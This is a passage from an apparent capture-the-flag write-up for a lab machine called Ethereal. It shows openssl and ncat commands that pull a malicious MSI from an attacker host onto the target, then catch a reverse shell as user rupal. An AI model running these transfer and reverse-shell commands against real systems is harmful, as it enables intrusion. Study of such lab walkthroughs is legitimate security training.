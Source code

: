 ![](/img/1542319389198.png)

### Transfer to Ethereal

I'll kill the shell output again and use that to copy my MSI to target:



    c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136 > c:\users\public\desktop\shortcuts\msi.msi





    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 136 < Ethereal.msi                                                                                        
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::136
    Ncat: Listening on 0.0.0.0:136
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49679.



### Shell

Then I'll copy that file into the MSI directory, restart both `openssl`
listeners, and wait. I get a shell as rupal:



    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem -port 136
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    ethereal\rupal
